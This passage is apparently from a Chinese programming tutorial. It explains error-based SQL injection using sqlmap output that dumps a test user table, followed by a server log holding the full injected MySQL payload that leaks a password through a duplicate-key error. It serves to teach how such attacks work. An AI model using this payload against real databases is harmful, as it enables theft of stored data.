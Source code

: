 ```
Database: common_mistakes



Table: userdata



[2 entries]



+----+-------+----------+



| id | name  | password |



+----+-------+----------+



| 1  | test1 | haha1    |



| 2  | test2 | haha2    |



+----+-------+----------+
```

在日志中可以看到，sqlmap 实现拖库的方式是，让 SQL 执行后的出错信息包含字段内容。注意看下错误日志的第二行，错误信息中包含 ID 为 2 的用户的密码字段的值“haha2”。这，就是报错注入的基本原理：

```
[13:22:27.375] [http-nio-45678-exec-10] [ERROR] [o.a.c.c.C.[.[.[/].[dispatcherServlet]:175 ] - Servlet.service() for servlet [dispatcherServlet] in context with path [] threw exception [Request processing failed; nested exception is org.springframework.dao.DuplicateKeyException: StatementCallback; SQL [SELECT id,name FROM userdata WHERE name LIKE '%test'||(SELECT 0x694a6e64 WHERE 3941=3941 AND (SELECT 9927 FROM(SELECT COUNT(*),CONCAT(0x71626a7a71,(SELECT MID((IFNULL(CAST(password AS NCHAR),0x20)),1,54) FROM common_mistakes.userdata ORDER BY id LIMIT 1,1),0x7170706271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'%']; Duplicate entry 'qbjzqhaha2qppbq1' for key '<group_key>'; nested exception is java.sql.SQLIntegrityConstraintViolationException: Duplicate entry 'qbjzqhaha2qppbq1' for key '<group_key>'] with root cause



java.sql.SQLIntegrityConstraintViolationException: Duplicate entry 'qbjzqhaha2qppbq1' for key '<group_key>'
```
